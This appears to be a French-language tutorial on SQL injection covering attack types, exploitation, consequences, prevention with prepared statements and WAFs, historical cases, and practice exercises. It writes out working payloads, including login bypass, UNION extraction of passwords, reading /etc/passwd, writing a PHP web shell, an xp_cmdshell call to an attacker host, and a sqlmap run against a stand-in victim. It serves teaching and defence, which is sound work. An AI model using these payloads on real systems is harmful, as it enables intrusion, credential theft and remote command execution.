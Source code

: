 ### **4. Injections SQL (SQLi)**  
#### **Définition** :  
Une injection SQL survient lorsque **des données non fiables (fournies par l’utilisateur) sont insérées dans une requête SQL sans validation ou encodage adéquat**, permettant à un attaquant de manipuler la requête pour exécuter du code SQL malveillant. Cela peut entraîner l’extraction, la modification, ou la suppression de données sensibles.

---

### **Types d’attaques SQLi**  
#### **1. Injection SQL basée sur les erreurs (Error-based SQLi)**  
- **Principe** : Exploitation des messages d’erreur détaillés renvoyés par la base de données pour extraire des informations (ex. : structure de la base, versions).  
- **Exemple** :  
  ```sql
  ' OR 1=CONVERT(int, (SELECT @@version)) --
  ```  
  → Le message d’erreur révèle la version du serveur SQL.  

#### **2. Injection SQL booléenne (Boolean-based SQLi)**  
- **Principe** : Utilisation de requêtes conditionnelles pour inférer des données via des réponses booléennes (vrai/faux).  
- **Exemple** :  
  ```sql
  ' AND (SELECT COUNT(*) FROM users) > 0 -- 
  ```  
  → Si la réponse est vraie, la table `users` existe.  

#### **3. Injection SQL temporelle (Time-based SQLi)**  
- **Principe** : Mesure des délais de réponse pour déterminer si une condition est vraie.  
- **Exemple** :  
  ```sql
  ' IF(SUBSTRING((SELECT password FROM users WHERE id=1),1,1)='a') WAITFOR DELAY '0:0:5' --
  ```  
  → Un délai de 5 secondes indique que le premier caractère du mot de passe est `'a'`.  

#### **4. Injection SQL hors bande (Out-of-band SQLi)**  
- **Principe** : Extraction de données via des canaux externes (ex. : requêtes HTTP/DNS vers un serveur contrôlé par l’attaquant).  
- **Exemple** :  
  ```sql
  EXEC xp_cmdshell('ping attaquant.com'); --
  ```  
  → Envoie des données via DNS ou HTTP.  

---

### **Exploitation pratique**  
#### **Techniques courantes** :  
1. **Bypass de connexion** :  
   ```sql
   ' OR 1=1 -- 
   ```  
   → Permet de se connecter sans mot de passe.  

2. **Extraction de données via `UNION SELECT`** :  
   ```sql
   ' UNION SELECT username, password FROM users --
   ```  
   → Affiche les identifiants des utilisateurs.  

3. **Lecture de fichiers système** :  
   ```sql
   LOAD_FILE('/etc/passwd');
   ```  

4. **Écriture de fichiers** :  
   ```sql
   INTO OUTFILE '/var/www/html/shell.php' VALUES("<?php system($_GET['cmd']); ?>");
   ```  

---

### **Conséquences des attaques SQLi**  
1. **Vol de données sensibles** :  
   - Exfiltration de mots de passe, numéros de carte bancaire, données personnelles.  
2. **Modification ou suppression de données** :  
   - Défiguration de sites, suppression de tables critiques.  
3. **Accès au système** :  
   - Exécution de commandes système via `xp_cmdshell` (MS SQL Server) ou `LOAD_FILE` (MySQL).  
4. **Impact légal et financier** :  
   - Non-conformité aux réglementations (ex. : RGPD, PCI DSS).  

---

### **Prévention et bonnes pratiques**  
#### **1. Utilisation de requêtes préparées (prepared statements)** :  
- **Java (JDBC)** :  
  ```java
  PreparedStatement stmt = connection.prepareStatement("SELECT * FROM users WHERE id = ?");
  stmt.setInt(1, userId);
  ```  
- **PHP (PDO)** :  
  ```php
  $stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
  $stmt->execute([$userId]);
  ```  

#### **2. Filtrage et validation des entrées** :  
- **Whitelist** : Accepter uniquement des formats valides (ex. : regex pour les emails).  
- **Blacklist** : Bloquer les caractères dangereux (`'`, `;`, `--`).  

#### **3. Utilisation d’ORM (Object-Relational Mapping)** :  
- Exemples : Hibernate (Java), Doctrine (PHP), SQLAlchemy (Python).  

#### **4. Gestion des privilèges** :  
- Accorder à l’utilisateur de la base de données **uniquement les privilèges nécessaires** (ex. : interdire `DROP TABLE`).  

#### **5. Journalisation et détection** :  
- Surveiller les requêtes suspectes via des outils comme **Snort** ou **Wazuh**.  
- Utiliser des **Web Application Firewalls (WAF)** comme **ModSecurity**.  

#### **6. Outils et bibliothèques** :  
- **OWASP SQLi Validator** : Vérification automatique des requêtes.  
- **SQLMap** : Test d’automatisation des vulnérabilités SQLi.  

---

### **Cas réels et exemples historiques**  
1. **Attaque contre Sony (2011)** :  
   - Vol de 1 million de données utilisateur via SQLi.  
2. **Breach of Heartland Payment Systems (2008)** :  
   - Injection SQL pour accéder à 130 millions de numéros de carte bancaire.  
3. **WordPress Plugins vulnérables** :  
   - Plugins tiers mal codés exposant des failles SQLi (ex. : WP Symposium).  

---



### **Exercices pratiques**  
1. **Bypass de login** :  
   ```sql
   username: admin' --
   password: n'importe quoi
   ```  
2. **Extraction de la version SQL** :  
   ```sql
   ' OR 1=CONVERT(int, (SELECT @@version)) --
   ```  
3. **Utilisation de SQLMap** :  
   ```bash
   sqlmap -u "http://victime.com/page?id=1" --dbs
   ```  

---
